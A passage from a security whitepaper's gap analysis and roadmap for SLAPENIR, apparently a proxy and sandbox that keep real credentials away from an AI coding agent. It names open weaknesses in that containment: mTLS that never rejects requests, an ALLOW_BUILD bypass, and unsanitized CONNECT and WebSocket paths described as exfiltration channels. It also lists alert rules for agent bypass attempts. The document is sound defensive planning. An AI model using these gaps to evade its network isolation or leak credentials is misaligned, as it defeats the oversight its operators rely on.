| L5: Memory Safety | 2 | 0 | 0 | 2 | `real_secrets_bytes` not zeroized |
| L6: Traffic Enforcement | 1 | 0 | 1 | 0 | ALLOW_BUILD bypasses restrictions |
| L7: Response Sanitization | 6 | 3 | 3 | 0 | No streaming, no WebSocket sanitization |
| L8: Size Limits | 2 | 0 | 1 | 1 | No streaming sanitization mode |
| L9: Content-Length | 0 | 0 | 0 | 0 | No open gaps |
| L10: Observability | 8 | 0 | 5 | 3 | No SIEM, no alerting, no tracing |
| Cross-cutting | 68 | 5 | 30 | 33 | CONNECT tunnel incomplete, performance TBDs |

#### 1.2 Source-Level TODOs

Ten TODO comments exist in the proxy source code, representing unimplemented features:

| TODO | Feature | File | Lines | Phase |
| --- | --- | --- | --- | --- |
| #1 | TLS handshake for upstream connections | `connect.rs` | 287-292 | Hardening |
| #2 | HTTP request/response processing | `connect.rs` | 294-297 | Hardening |
| #3 | Just-in-time credential injection | `connect.rs:299`, `connect_http.rs:24,113` | Multi | Hardening |
| #4 | Response sanitization in MITM path | `connect.rs:304`, `connect_http.rs:25,143` | Multi | Hardening |
| #5 | Client certificate extraction | `mtls.rs` | 126-131 | Hardening |
| #6 | HMAC signing strategy | `builder.rs` | 97-100 | Capability |

#### 1.3 GitHub Issues

| Issue | Title | Status | Labels | Action |
| --- | --- | --- | --- | --- |
| #9 | Security Vulnerabilities Detected - 2026-03-02 | Open | security, vulnerability, automated | Review Docker scan, update dependencies |
| #2 | Security Vulnerabilities Detected - 2026-02-16 | Closed | security, vulnerability, automated | Resolved 2026-02-24 |
| #1 | Security Vulnerabilities Detected - 2026-02-09 | Closed | security, vulnerability, automated | Resolved 2026-02-24 |

---

### 2. Roadmap

#### 2.1 Roadmap Timeline

```mermaid
gantt
    title SLAPENIR Development Roadmap
    dateFormat YYYY-MM-DD
    axisFormat %b %Y

    section Phase 1: Hardening
    mTLS enforcement (GAP-01)           :p1a, 2026-07-01, 21d
    CONNECT tunnel sanitization (TODO 1-4) :p1b, 2026-07-01, 42d
    Production TLS listener (GAP-03)    :p1c, 2026-07-22, 21d
    Fail-closed mTLS config (GAP-02)    :p1d, 2026-08-01, 14d
    Zeroize derived bytes (GAP-04)      :p1e, 2026-08-01, 7d
    Establish performance baselines     :p1f, 2026-08-12, 21d

    section Phase 2: Capability
    Streaming sanitization (GAP-05)     :p2a, 2026-10-01, 42d
    HMAC strategy (TODO #6)             :p2b, 2026-10-01, 21d
    WebSocket frame sanitization (GAP-06) :p2c, 2026-10-22, 28d
    Prometheus alerting rules (GAP-09)  :p2d, 2026-11-01, 14d
    Run mutation test baselines         :p2e, 2026-11-15, 21d

    section Phase 3: Enterprise
    SIEM integration (GAP-08)           :p3a, 2027-01-01, 42d
    Secret rotation automation          :p3b, 2027-01-01, 35d
    Kubernetes migration guide          :p3c, 2027-01-15, 42d
    Container image scanning (Trivy)    :p3d, 2027-02-01, 21d

    section Phase 4: Scale
    Horizontal auto-scaling validation  :p4a, 2027-04-01, 28d
    OpenTelemetry distributed tracing   :p4b, 2027-04-01, 35d
    Multi-agent orchestration           :p4c, 2027-04-15, 42d
```

#### 2.2 Phase Architecture

```mermaid
flowchart TD
    subgraph "Phase 1: Hardening (Q3 2026)"
        P1A["mTLS Enforcement<br/>GAP-01, GAP-02, GAP-03<br/>TODO #1, #2, #3, #4, #5"]
        P1B["Memory Hardening<br/>GAP-04<br/>Zeroize derived bytes"]
        P1C["Performance Baselines<br/>Establish all TBD targets<br/>Mutation test scores"]
    end

    subgraph "Phase 2: Capability (Q4 2026)"
        P2A["Streaming Sanitization<br/>GAP-05, GAP-10<br/>Chunk-based Aho-Corasick"]
        P2B["Protocol Coverage<br/>GAP-06 (WebSocket)<br/>TODO #6 (HMAC)"]
        P2C["Alerting<br/>GAP-09<br/>Prometheus Alertmanager"]
    end

    subgraph "Phase 3: Enterprise (Q1 2027)"
        P3A["SIEM Integration<br/>GAP-08<br/>Fluentd/Vector pipeline"]
        P3B["Secret Rotation<br/>Automatic proxy reload<br/>Zero-downtime credential update"]
        P3C["K8s Migration<br/>Helm chart<br/>Service mesh integration"]
    end

    subgraph "Phase 4: Scale (Q2 2027)"
        P4A["Auto-Scaling<br/>Validate breaking point<br/>HPA configuration"]
        P4B["Distributed Tracing<br/>OpenTelemetry<br/>Cross-service correlation"]
        P4C["Multi-Agent<br/>Orchestration layer<br/>Agent pool management"]
    end

    P1A --> P2A
    P1C --> P2A
    P2A --> P3A
    P2C --> P3A
    P3C --> P4A
    P3B --> P4C

    style P1A fill:#e74c3c,color:#fff
    style P1B fill:#e74c3c,color:#fff
    style P1C fill:#e74c3c,color:#fff
    style P2A fill:#e67e22,color:#fff
    style P2B fill:#e67e22,color:#fff
    style P2C fill:#e67e22,color:#fff
    style P3A fill:#3498db,color:#fff
    style P3B fill:#3498db,color:#fff
    style P3C fill:#3498db,color:#fff
    style P4A fill:#9b59b6,color:#fff
    style P4B fill:#9b59b6,color:#fff
    style P4C fill:#9b59b6,color:#fff
```

---

### 3. Phase 1: Hardening (Q3 2026)

#### 3.1 mTLS Enforcement (GAP-01, GAP-02, GAP-03, TODO #5)

**Priority:** P1 (Critical)
**Complexity:** Medium (3-4 engineer-weeks)
**Gap references:** GAP-01, GAP-02, GAP-03, WP-12 Section 4.3, WP-07 Section 5

The mTLS enforcement gap is the most significant known vulnerability (WP-12 Key Takeaway #4). The `verify_client_cert` middleware at `mtls.rs:126-131` never rejects requests, even when `MTLS_ENFORCE=true`. Three changes are required:

| Change | Gap | File | Description |
| --- | --- | --- | --- |
| Extract client cert from TLS session | GAP-01, TODO #5 | `mtls.rs:111-135` | Use `rustls::ServerConfig::with_client_cert_verifier` to extract CN/serial from peer certificate |
| Fail-closed on config error | GAP-02 | `main.rs:148-154` | Replace graceful mTLS fallback with `process::exit(1)` when certificate loading fails |
| Production TLS listener | GAP-03 | `main.rs:84-86` | Integrate `axum-server` with `rustls` for TLS termination on port 3000 |

**Implementation approach for TODO #5:**

**Ref:** `proxy/src/mtls.rs:111-135`

```rust
pub async fn verify_client_cert(
    State(state): State<AppState>,
    request: Request,
    next: Next,
) -> Result<Response, StatusCode> {
    if state.mtls_enforce {
        tracing::warn!(
            "mTLS enforcement requested but client certificate extraction not yet implemented"
        );
    }
    Ok(next.run(request).await)
}
```

The fix requires accessing the `rustls::ServerConnection` from the Axum connection extensions, extracting the peer certificate chain, and validating against the trusted CA. The `WebPkiClientVerifier` already configured in `MtlsConfig::from_files()` performs this validation at the TLS layer — the application-layer middleware only needs to confirm the handshake completed with a valid peer cert.

**mTLS default change:**

| Current | Proposed | Rationale |
| --- | --- | --- |
| `MTLS_ENABLED=false` | `MTLS_ENABLED=true` | Production should enforce mTLS by default |
| `MTLS_ENFORCE=false` | `MTLS_ENFORCE=true` | Client certificate validation should be required |
| Config failure = continue | Config failure = exit | Fail-closed prevents running without mTLS |

#### 3.2 CONNECT Tunnel Completion (TODO #1-4)

**Priority:** P1 (Critical)
**Complexity:** High (6-8 engineer-weeks)
**Gap references:** WP-12 Section 3 residual risk, WP-03 Section 3

The CONNECT tunnel (TLS MITM) path does not perform credential injection or response sanitization. Four TODOs represent the missing pipeline:

| TODO | Feature | Status | Implementation Notes |
| --- | --- | --- | --- |
| #1 | TLS handshake with upstream | Stub | `connect.rs:287-292` — 5 sub-steps listed |
| #2 | HTTP request/response processing | Stub | `connect.rs:294-297` — 3 sub-steps listed |
| #3 | Credential injection | Stub | `connect.rs:299-302`, `connect_http.rs:113-114` — just-in-time injection |
| #4 | Response sanitization | Stub | `connect.rs:304-314`, `connect_http.rs:143-144` — reuse `sanitize_bytes()` |

**Ref:** `proxy/src/connect.rs:287-314`

The CONNECT flow currently establishes the tunnel but forwards traffic as-is. The required pipeline is:

1. Intercept CONNECT request, determine target hostname via SNI extraction
2. Generate per-host TLS certificate via `MitmAcceptor`
3. Terminate client TLS, establish upstream TLS
4. Parse HTTP request within the tunnel
5. Inject credentials via `secret_map.inject()` on outbound request
6. Forward to upstream with real credentials
7. Read response, sanitize via `secret_map.sanitize_bytes()` on inbound response
8. Return sanitized response to agent

This pipeline mirrors the existing `proxy_handler()` flow in `proxy.rs:203-351` but operates within a CONNECT tunnel rather than on direct HTTP requests.

#### 3.3 Memory Hardening (GAP-04)

**Priority:** P3
**Complexity:** Low (1 engineer-day)
**Gap references:** GAP-04, WP-04 Section 5, WP-12 Section 6.1

**Ref:** `proxy/src/sanitizer.rs:39-41`

```rust
#[zeroize(skip)]
real_secrets_bytes: Vec<Vec<u8>>,
```

The `real_secrets_bytes` field is marked `#[zeroize(skip)]` because the Aho-Corasick automaton holds references to these bytes. The fix requires:

1. Remove `#[zeroize(skip)]` from `real_secrets_bytes`
2. Implement a custom `Drop` that explicitly zeroizes each byte vector
3. Verify the Aho-Corasick automaton does not hold dangling references after zeroization (the automaton copies pattern data internally, so zeroizing the source vectors is safe)

#### 3.4 Performance Baselines

**Priority:** P2
**Complexity:** Medium (2 engineer-weeks)
**Gap references:** WP-11 Sections 2 and 5, PERFORMANCE.md

All throughput and availability targets are currently TBD:

| Metric | Target | Current | Gap |
| --- | --- | --- | --- |
| Requests per second | >1,000 req/s | TBD | Requires benchmark run |
| Concurrent connections | >1,000 | TBD | Requires stress test |
| Data throughput | >10 MB/s | TBD | Requires benchmark run |
| Secrets sanitized/second | >10,000 | TBD | Requires benchmark run |
| Uptime SLA | 99.9% | TBD | Requires soak test |
| Error rate | <0.1% | TBD | Requires load test |
| Mutation score (sanitizer) | >85% | TBD | Requires `cargo-mutants` run |
| Mutation score (proxy) | >80% | TBD | Requires `cargo-mutants` run |
| Mutation score (overall) | >80% | TBD | Requires `cargo-mutants` run |

**Ref:** `proxy/PERFORMANCE.md:23-47`

**Ref:** `proxy/MUTATION_TESTING.md:98-106`

The benchmark suite exists (`proxy/benches/performance.rs`) and the load test suite exists (`proxy/tests/load/`). The work is to execute both suites, record results, and update the TBD fields with actual measurements.

---

### 4. Phase 2: Capability (Q4 2026)

#### 4.1 Streaming Sanitization (GAP-05, GAP-10)

**Priority:** P2
**Complexity:** High (6-8 engineer-weeks)
**Gap references:** GAP-05, GAP-10, WP-04 Section 8, WP-11 Section 8

The current proxy buffers entire request and response bodies before sanitization. This limits maximum payload size (100 MB response limit) and adds latency proportional to body size.

**Current approach (full-buffer):**

**Ref:** `proxy/src/proxy.rs:293-310`

```rust
let response_bytes = axum::body::to_bytes(body, max_response_size)
    .await
    .map_err( | e | { ... })?;

let sanitized_bytes = state.secret_map.sanitize_bytes(&response_bytes);
```

**Proposed approach (chunk-based streaming):**

The Aho-Corasick algorithm operates on a character-by-character basis, making streaming feasible with boundary management:

| Component | Description | Complexity |
| --- | --- | --- |
| Chunk scanner | Process body in 64KB chunks, buffering overlap of `max_secret_length - 1` bytes at chunk boundaries | Medium |
| Boundary management | Secrets split across chunks are handled by the overlap buffer; complete matches in current chunk are replaced immediately | High |
| Backpressure | Apply `DEFAULT_MAX_RESPONSE_SIZE` as a total byte counter across chunks rather than a single allocation | Low |

The streaming mode enables:

- Payloads larger than 100 MB without memory pressure
- Reduced first-byte latency (begin sanitization before full body arrives)
- Lower peak memory usage (O(max_secret_length) per chunk vs O(body_size))

#### 4.2 HMAC Strategy (TODO #6)

**Priority:** P2
**Complexity:** Medium (2-3 engineer-weeks)
**Gap references:** TODO #6, WP-05 Section 2

**Ref:** `proxy/src/builder.rs:97-100`

```rust
AuthStrategyType::Hmac => {
    return Err("HMAC strategy not yet implemented".to_string());
}
```

HMAC signing is required for APIs that use request signing (AWS SigV4 is already implemented; HMAC-SHA256 is the next most common pattern). The strategy interface already exists:

| Component | Status | Work Required |
| --- | --- | --- |
| `AuthStrategy` trait | Implemented | None |
| `HmacStrategy` struct | Not created | Implement `real_credential()`, `dummy_patterns()`, `inject_request()` |
| Auto-detection | Warns and skips | Connect to `auto_detect.rs:376` |
| Config validation | `hmac` type accepted | Add field validation for `hmac_key_env`, `hmac_algorithm` |

#### 4.3 WebSocket Frame Sanitization (GAP-06)

**Priority:** P2
**Complexity:** High (4-6 engineer-weeks)
**Gap references:** GAP-06, WP-04 Section 7

WebSocket connections use a different framing protocol than HTTP. The current proxy does not inspect or sanitize WebSocket frames. For LLM streaming APIs that use WebSocket transport (e.g., real-time voice APIs), this creates an unfiltered exfiltration channel.

| Component | Description |
| --- | --- |
| Frame parser | Parse WebSocket opcode, mask, payload length, and payload data |
| Text frame sanitization | Apply `secret_map.sanitize()` to text frames (opcode 0x1) |
| Binary frame sanitization | Apply `secret_map.sanitize_bytes()` to binary frames (opcode 0x2) |
| Control frame passthrough | Forward ping/pong/close frames without modification |
| Fragmented frame handling | Buffer continuation frames (opcode 0x0) until complete message, then sanitize |

#### 4.4 Prometheus Alerting Rules (GAP-09)

**Priority:** P2
**Complexity:** Low (1 engineer-week)
**Gap references:** GAP-09, WP-10 Section 7

**Ref:** `monitoring/prometheus.yml:23-68`

The Prometheus configuration defines `evaluation_interval: 15s` but no `rule_files:` or `alerting:` sections. Recommended alerting rules:

| Alert | Expression | Severity | Purpose |
| --- | --- | --- | --- |
| `NetworkIsolationDisabled` | `agent_network_isolation_status == 0` | Critical | Firewall disabled |
| `BypassAttemptDetected` | `agent_bypass_attempts_total > 0` | Critical | Internet bypass attempt |
| `CertificateExpiringSoon` | `(cert_expiry_timestamp - time()) / 86400 < 7` | Warning | Certificate rotation needed |
| `HighErrorRate` | `rate(http_requests_total{status=~"5.."}[5m]) / rate(http_requests_total[5m]) > 0.01` | Warning | Error rate >1% |
| `SanitizationFailure` | `rate(mtls_errors_total[5m]) > 0` | Critical | TLS handshake failures |
| `ProxyDown` | `up{job="slapenir-proxy"} == 0` | Critical | Proxy unreachable |

Integration with Alertmanager provides email, PagerDuty, and OpsGenie notification channels.

---

### 5. Phase 3: Enterprise (Q1 2027)

#### 5.1 SIEM Integration (GAP-08)

**Priority:** P2
**Complexity:** Medium (3-4 engineer-weeks)
**Gap references:** GAP-08, WP-10 Sections 5-6

The current observability stack produces structured logs (Rust `tracing` and Python JSON) that are suitable for SIEM ingestion but lack the forwarding pipeline.

| Component | Implementation | Effort |
| --- | --- | --- |
| Log forwarding | Fluent Bit sidecar container, tail proxy + agent log files | 1 week |
| Log enrichment | Add `trace_id`, `span_id`, `session_id` to all structured log entries | 1 week |
| Audit log format | Define CEF (Common Event Format) or JSON Schema for security events | 1 week |
| Retention tiers | 30-day hot (Elasticsearch), 90-day warm (S3), 1-year cold (Glacier) | 1 week |

**Proposed log forwarding architecture:**

```mermaid
flowchart LR
    subgraph "SLAPENIR Services"
        PX["Proxy<br/>tracing JSON"]
        AG["Agent<br/>logging_config.py JSON"]
        CA["Step-CA<br/>structured logs"]
    end

    subgraph "Log Pipeline"
        FB["Fluent Bit<br/>sidecar<br/>tail + parser"]
        FB --> ENRICH["Enrichment<br/>add trace_id<br/>add session_id"]
        ENRICH --> ROUTE["Router<br/>security → SIEM<br/>operational → ES"]
    end

    subgraph "Storage"
        SIEM["IBM QRadar /<br/>Splunk / Sentinel"]
        ES["Elasticsearch<br/>30-day hot"]
        S3["S3 / COS<br/>90-day warm"]
    end

    PX --> FB
    AG --> FB
    CA --> FB
    ROUTE --> SIEM
    ROUTE --> ES
    ES --> S3

    style FB fill:#e67e22,color:#fff
    style SIEM fill:#3498db,color:#fff
    style ES fill:#27ae60,color:#fff
```

#### 5.2 Secret Rotation Automation

**Priority:** P2
**Complexity:** High (5-6 engineer-weeks)
**Gap references:** WP-12 comparative analysis, WP-07 Section 6

Current credential rotation requires manual proxy restart. The target is zero-downtime credential update:

| Component | Description | Effort |
| --- | --- | --- |
| Config file watcher | `notify` crate watches `config.yaml` and `.env` for changes | 1 week |
| Hot reload SecretMap | Atomically swap `Arc<SecretMap>` in `AppState` without dropping requests | 2 weeks |
| Certificate rotation | Watch Step-CA certificate expiry, re-enroll via `step ca renew` | 1 week |
| Proxy reload signal | `SIGHUP` handler triggers config re-read without process restart | 1 week |
| Zero-downtime validation | Verify new credentials work before committing, roll back on failure | 1 week |

The hot-reload mechanism leverages Rust's `Arc::swap` to atomically replace the `SecretMap` pointer without disrupting in-flight requests. In-flight requests continue using the old `SecretMap` via their existing `Arc` reference, which is dropped when the request completes.

#### 5.3 Kubernetes Migration

**Priority:** P2
**Complexity:** High (6-8 engineer-weeks)
**Gap references:** WP-12 comparative analysis, GAP-01 (mTLS critical in K8s)

The Docker Compose deployment must be adapted for Kubernetes. Key changes:

| Component | Docker Compose | Kubernetes | Effort |
| --- | --- | --- | --- |
| Service mesh | Docker bridge network | Istio/Linkerd mTLS | 2 weeks |
| Network isolation | iptables + `internal:true` | NetworkPolicy + CNI | 1 week |
| Certificate management | Step-CA container | cert-manager + CA issuer | 1 week |
| Configuration | `.env` files + `config.yaml` | Secrets + ConfigMaps | 1 week |
| Observability | Local Prometheus/Grafana | Prometheus Operator + Grafana Operator | 1 week |
| Deployment | `docker-compose up` | Helm chart + ArgoCD | 2 weeks |

**Critical K8s consideration:** The mTLS enforcement gap (GAP-01) becomes critical in Kubernetes because pods share a network overlay. Without mTLS enforcement, any pod in the cluster can connect to the proxy. A service mesh (Istio/Linkerd) provides the equivalent enforcement at the infrastructure level, compensating for the application-layer gap.

#### 5.4 Container Image Scanning

**Priority:** P3
**Complexity:** Low (1 engineer-week)
**Gap references:** WP-12 Section 2.2 (supply chain gaps)

The `cargo-deny` and `cargo-audit` configurations cover Rust dependencies but not system packages. Recommended additions:

| Tool | Scope | Integration |
| --- | --- | --- |
| Trivy | Container image (apk + Rust + npm) | CI pipeline, block on HIGH/CRITICAL CVEs |
| Grype | Alternative to Trivy | SBOM-based scanning |
| SBOM generation | `syft` generates SPDX SBOM | Attach to container image |
| Signing | `cosign` signs images | Verify in K8s admission controller |

---

### 6. Phase 4: Scale (Q2 2027)

#### 6.1 Auto-Scaling Validation

**Priority:** P3
**Complexity:** Medium (3-4 engineer-weeks)
**Gap references:** WP-11 Section 6

The auto-scaling rules in `PERFORMANCE.md:188-193` are theoretical. Validation requires:

| Step | Description | Effort |
| --- | --- | --- |
| 1 | Run full stress test suite, identify actual breaking point | 1 week |
| 2 | Deploy 2-3 proxy instances behind nginx/HAProxy | 1 week |
| 3 | Configure HPA (Horizontal Pod Autoscaler) in K8s | 1 week |
| 4 | Validate linear scaling: 2x instances = 2x throughput | 1 week |

#### 6.2 OpenTelemetry Distributed Tracing

**Priority:** P3
**Complexity:** Medium (3-4 engineer-weeks)
**Gap references:** WP-10 Section 1.1

The current tracing pillar uses Rust's `tracing` crate for structured logging, not distributed tracing. Adding OpenTelemetry enables:

| Capability | Implementation | Value |
| --- | --- | --- |
| Trace correlation | `opentelemetry` crate with `tracing-opentelemetry` bridge | Track request across agent, proxy, upstream |
| Span export | OTLP exporter to Jaeger/Zipkin/Tempo | Visual request flow |
| Metric export | OTLP metric pipeline alongside Prometheus | Unified observability |
| Baggage propagation | W3C TraceContext headers | Correlate proxy requests with agent operations |

#### 6.3 Multi-Agent Orchestration

**Priority:** P4
**Complexity:** Very High (10-12 engineer-weeks)
**Gap references:** Future capability, no current gap

The current architecture supports a single agent container per proxy instance. Multi-agent orchestration would enable:

| Component | Description |
| --- | --- |
| Agent pool | Multiple agent containers behind a single proxy |
| Session isolation | Per-agent credential sets with separate `SecretMap` instances |
| Resource quotas | CPU/memory limits per agent, enforced by cgroups/K8s |
| Scheduling | Queue-based agent assignment, priority scheduling |
| Billing | Per-session resource tracking for chargeback |

---

### 7. Open-Source Considerations

#### 7.1 Licensing

The SLAPENIR proxy uses only permissively licensed dependencies:

**Ref:** `proxy/deny.toml:14-16`

```toml
[licenses]
allow = ["MIT", "Apache-2.0", "BSD-2-Clause", "BSD-3-Clause", "ISC", "Zlib"]
```

No copyleft (GPL, AGPL) dependencies are present. The proxy can be distributed under any license, including proprietary.

#### 7.2 Recommended Open-Source Release Strategy

| Phase | Action | Timeline |
| --- | --- | --- |
| Phase 1 | Publish proxy core (sanitizer, proxy, config) under Apache-2.0 | After Phase 1 hardening |
| Phase 2 | Publish agent container and Docker Compose configuration | After Phase 2 capability |
| Phase 3 | Publish Helm chart and K8s manifests | After Phase 3 enterprise |
| Phase 4 | Publish multi-agent orchestration framework | After Phase 4 scale |

#### 7.3 Security Disclosure Process

| Component | Mechanism | Response SLA |
| --- | --- | --- |
| CVE reporting | `security@` alias or GitHub Security Advisories | 24-hour acknowledgment |
| Critical fixes | Hotfix branch, patch release within 72 hours | 72 hours |
| Audit schedule | Annual third-party security audit | Annual |
| Dependency updates | Automated Dependabot + cargo-audit in CI | Continuous |

---

### 8. Implementation Priority Matrix

| Priority | Item | Phase | Effort | Impact | Dependencies |
| --- | --- | --- | --- | --- | --- |
| P1 | mTLS enforcement (GAP-01) | Hardening | 3-4 weeks | Critical | None |
| P1 | CONNECT tunnel (TODO #1-4) | Hardening | 6-8 weeks | Critical | None |
| P1 | Performance baselines | Hardening | 2 weeks | High | None |
| P2 | Streaming sanitization (GAP-05) | Capability | 6-8 weeks | High | Performance baselines |
| P2 | Prometheus alerting (GAP-09) | Capability | 1 week | Medium | None |
| P2 | HMAC strategy (TODO #6) | Capability | 2-3 weeks | Medium | None |
| P2 | WebSocket sanitization (GAP-06) | Capability | 4-6 weeks | Medium | Streaming infrastructure |
| P2 | SIEM integration (GAP-08) | Enterprise | 3-4 weeks | High | Alerting rules |
| P2 | Secret rotation | Enterprise | 5-6 weeks | High | Config file watcher |
| P2 | K8s migration | Enterprise | 6-8 weeks | High | mTLS enforcement |
| P3 | Container scanning | Enterprise | 1 week | Medium | None |
| P3 | OpenTelemetry tracing | Scale | 3-4 weeks | Medium | None |
| P3 | Auto-scaling validation | Scale | 3-4 weeks | Medium | Performance baselines |
| P4 | Multi-agent orchestration | Scale | 10-12 weeks | Future | K8s migration |

---

### Key Takeaways

1. **Phase 1 (Hardening) addresses the most critical security gaps.** The mTLS enforcement gap (GAP-01) and the incomplete CONNECT tunnel (TODOs #1-4) are the highest-priority items. The CONNECT tunnel represents an unfiltered exfiltration path for HTTPS traffic — any agent request to an HTTPS endpoint bypasses credential sanitization entirely. Completing these items raises the system from development-grade to production-grade security.

2. **96 gap items consolidate to 14 actionable work items across four phases.** The gap analysis spans 10 security layers, but the work clusters into four themes: authentication hardening (mTLS), protocol coverage (CONNECT/WebSocket/streaming), enterprise integration (SIEM/rotation/K8s), and scale (auto-scaling/tracing/multi-agent). Each phase has clear dependencies on the previous phase.

3. **The streaming sanitization redesign is the highest-complexity single item.** Moving from full-buffer to chunk-based Aho-Corasick requires careful boundary management (secrets split across chunks) while maintaining the paranoid double-pass verification guarantee. The 6-8 week estimate reflects the need to prove the streaming algorithm is as secure as the current full-buffer approach.

4. **Kubernetes migration depends on mTLS enforcement completion.** In a shared Kubernetes network overlay, any pod can reach the proxy service. Without application-layer mTLS enforcement (GAP-01), a compromised pod in the same namespace could send requests through the proxy without authentication. The service mesh (Istio/Linkerd) provides infrastructure-level enforcement, but defense-in-depth requires both layers.

5. **Open-source release is feasible after Phase 1 hardening.** The proxy core uses only permissively licensed dependencies (MIT, Apache-2.0, BSD, ISC, Zlib — enforced by `deny.toml`). No copyleft dependencies exist. Publishing the proxy core under Apache-2.0 after the mTLS and CONNECT tunnel completion would provide the community with a production-grade zero-knowledge credential proxy while retaining enterprise features (SIEM, K8s, multi-agent) for commercial differentiation.

---

# Appendix B: Consolidated Code References

All source code references from the 13 whitepaper sections, deduplicated and sorted by file path.

| # | Section | Reference |
| --- | --------- | ----------- |
| 1 | Section 9 | `Makefile:29-30` |
| 2 | Section 9 | `Makefile:32-33` |
| 3 | Section 9 | `Makefile:47-55` |
| 4 | Section 9 | `Makefile:57-80` |
| 5 | Section 9 | `Makefile:108-122` |
| 6 | Section 9 | `Makefile:124-132` |
| 7 | Section 9 | `Makefile:134-141` |
| 8 | Section 9 | `Makefile:221-245` |
| 9 | Section 9 | `Makefile:247-250` |
| 10 | Section 9 | `Makefile:252-257` |
| 11 | Section 5 | `Makefile:259-263` |
| 12 | Section 9 | `README.md:1095-1217` |
| 13 | Section 9 | `README.md:1099-1114` |
| 14 | Section 9 | `README.md:1145-1160` |
| 15 | Section 9 | `README.md:1165-1171` |
| 16 | Section 9 | `README.md:1176-1183` |
| 17 | Section 2 | `agent/Dockerfile:1-325` |
| 18 | Section 8 | `agent/Dockerfile:4` |
| 19 | Section 8 | `agent/Dockerfile:12-35` |
| 20 | Section 8 | `agent/Dockerfile:38-43` |
| 21 | Section 8 | `agent/Dockerfile:53-61` |
| 22 | Section 8 | `agent/Dockerfile:64-67` |
| 23 | Section 8 | `agent/Dockerfile:167-201` |
| 24 | Section 8 | `agent/Dockerfile:205` |
| 25 | Section 8 | `agent/Dockerfile:227-250` |
| 26 | Section 8 | `agent/Dockerfile:267-277` |
| 27 | Section 8 | `agent/Dockerfile:281-285` |
| 28 | Section 8 | `agent/Dockerfile:309` |
| 29 | Section 8 | `agent/Dockerfile:312` |
| 30 | Section 8 | `agent/Dockerfile:313` |
| 31 | Section 8 | `agent/Dockerfile:317-324` |
| 32 | Section 8 | `agent/config/AGENTS.md:1-15` |
| 33 | Section 2 | `agent/config/opencode.json:12-53` |
| 34 | Section 8 | `agent/config/opencode.json:12-52` |
| 35 | Section 8 | `agent/config/opencode.json:13-30` |
| 36 | Section 3 | `agent/config/opencode.json:18-30` |
| 37 | Section 8 | `agent/config/opencode.json:39-52` |
| 38 | Section 8 | `agent/config/opencode.json:54-244` |
| 39 | Section 8 | `agent/config/opencode.json:67-243` |
| 40 | Section 5 | `agent/config/opencode.json:218-231` |
| 41 | Section 2 | `agent/s6-overlay/` |
| 42 | Section 8 | `agent/s6-overlay/cont-init.d/00-fix-permissions` |
| 43 | Section 8 | `agent/s6-overlay/cont-init.d/01-traffic-enforcement:13-20` |
| 44 | Section 8 | `agent/s6-overlay/cont-init.d/02-populate-huggingface-cache:8-15` |
| 45 | Section 8 | `agent/s6-overlay/cont-init.d/02-populate-huggingface-cache:30-49` |
| 46 | Section 8 | `agent/s6-overlay/s6-rc.d/agent-svc/finish:10-28` |
| 47 | Section 8 | `agent/s6-overlay/s6-rc.d/user/contents.d/` |
| 48 | Section 7 | `agent/scripts/bootstrap-certs.sh:1-67` |
| 49 | Section 4 | `agent/scripts/generate-dummy-env.sh:51-135` |
| 50 | Section 6 | `agent/scripts/gradle-wrapper:1-12` |
| 51 | Section 6 | `agent/scripts/lib/allow-build-trap.sh:1-68` |
| 52 | Section 8 | `agent/scripts/lib/allow-build-trap.sh:24-68` |
| 53 | Section 4 | `agent/scripts/lib/build-wrapper.sh` |
| 54 | Section 6 | `agent/scripts/lib/build-wrapper.sh:10-28` |
| 55 | Section 6 | `agent/scripts/lib/build-wrapper.sh:86-103` |
| 56 | Section 5 | `agent/scripts/lib/detection.sh:15-121` |
| 57 | Section 6 | `agent/scripts/lib/detection.sh:15-64` |
| 58 | Section 6 | `agent/scripts/lib/detection.sh:83-121` |
| 59 | Section 5 | `agent/scripts/lib/node-fetch-port-fix.js:1-67` |
| 60 | Section 10 | `agent/scripts/logging_config.py:129-169` |
| 61 | Section 10 | `agent/scripts/logging_config.py:192-214` |
| 62 | Section 10 | `agent/scripts/metrics_exporter.py:1-217` |
| 63 | Section 10 | `agent/scripts/metrics_exporter.py:22-63` |
| 64 | Section 10 | `agent/scripts/metrics_exporter.py:66-129` |
| 65 | Section 10 | `agent/scripts/metrics_exporter.py:148-182` |
| 66 | Section 10 | `agent/scripts/metrics_exporter.py:185-199` |
| 67 | Section 4 | `agent/scripts/netctl.c` |
| 68 | Section 6 | `agent/scripts/netctl.c:1-27` |
| 69 | Section 6 | `agent/scripts/network-enable.sh:33-79` |
| 70 | Section 3 | `agent/scripts/network-enable.sh:64-75` |
| 71 | Section 6 | `agent/scripts/network-enable.sh:81-105` |
| 72 | Section 6 | `agent/scripts/npm-wrapper:1-11` |
| 73 | Section 3 | `agent/scripts/runtime-monitor.sh:33-101` |
| 74 | Section 6 | `agent/scripts/runtime-monitor.sh:33-102` |
| 75 | Section 6 | `agent/scripts/setup-bashrc.sh:12-42` |
| 76 | Section 6 | `agent/scripts/setup-bashrc.sh:44-60` |
| 77 | Section 6 | `agent/scripts/setup-bashrc.sh:74-76` |
| 78 | Section 3 | `agent/scripts/setup-ssh-config.sh` |
| 79 | Section 9 | `agent/scripts/startup-validation.sh:51-86` |
| 80 | Section 4 | `agent/scripts/startup-validation.sh:52-86` |
| 81 | Section 4 | `agent/scripts/traffic-enforcement.sh` |
| 82 | Section 3 | `agent/scripts/traffic-enforcement.sh:59-154` |
| 83 | Section 6 | `agent/scripts/traffic-enforcement.sh:59-64` |
| 84 | Section 3 | `agent/scripts/traffic-enforcement.sh:91-107` |
| 85 | Section 6 | `agent/scripts/traffic-enforcement.sh:119-125` |
| 86 | Section 3 | `agent/scripts/traffic-enforcement.sh:129-135` |
| 87 | Section 6 | `agent/scripts/traffic-enforcement.sh:153` |
| 88 | Section 6 | `agent/scripts/traffic-enforcement.sh:161` |
| 89 | Section 6 | `agent/scripts/traffic-enforcement.sh:174-175` |
| 90 | Section 12 | `agent/scripts/verify-network-isolation.sh:14-72` |
| 91 | Section 4 | `ca-data/config/ca.json` |
| 92 | Section 7 | `ca-data/config/ca.json:22-36` |
| 93 | Section 2 | `docker-compose.yml:1-270` |
| 94 | Section 7 | `docker-compose.yml:8-28` |
| 95 | Section 7 | `docker-compose.yml:139-146` |
| 96 | Section 2 | `docker-compose.yml:154-158` |
| 97 | Section 3 | `docker-compose.yml:198-206` |
| 98 | Section 3 | `docker-compose.yml:211-212` |
| 99 | Section 2 | `docker-compose.yml:265-267` |
| 100 | Section 2 | `docker-compose.yml:387-401` |
| 101 | Section 2 | `docker-compose.yml:409-489` |
